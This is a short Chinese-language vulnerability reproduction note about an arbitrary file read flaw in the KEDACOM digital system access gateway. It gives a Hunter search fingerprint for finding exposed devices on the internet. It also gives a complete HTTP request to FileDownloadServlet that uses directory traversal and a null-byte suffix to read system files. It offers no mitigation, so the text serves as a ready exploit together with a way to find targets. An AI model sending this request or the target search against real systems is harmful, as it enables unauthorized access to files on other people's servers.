# KEDACOM数字系统接入网关 任意文件读取漏洞

# 一、漏洞简介
KEDACOM 数字系统接入网关 存在任意文件读取漏洞，攻击者通过构造请求可以读取服务器任意文件

# 二、影响版本
+ KEDACOM 数字系统接入网关

# 三、资产测绘
+ hunter`web.body="/**起始端口变量*/"`
+ 特征

![1700237094459-93d63897-cd43-41d4-a428-50edf148ea60.png](./img/pnKUapdSU-2Ic2-z/1700237094459-93d63897-cd43-41d4-a428-50edf148ea60-046539.png)

# 四、漏洞复现
```plain
GET /gatewayweb/FileDownloadServlet?fileName=test.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=FAEECB621961790CDFC5AB87BBEB1E20; JSESSIONID=760C78AEAACEFF5C9110E58901A9AAC3
Upgrade-Insecure-Requests: 1
```

![1700237129473-ffbbb7a7-bb7e-4f1b-8d3d-28cb8cb90790.png](./img/pnKUapdSU-2Ic2-z/1700237129473-ffbbb7a7-bb7e-4f1b-8d3d-28cb8cb90790-814993.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/agh61crlxr5redq2>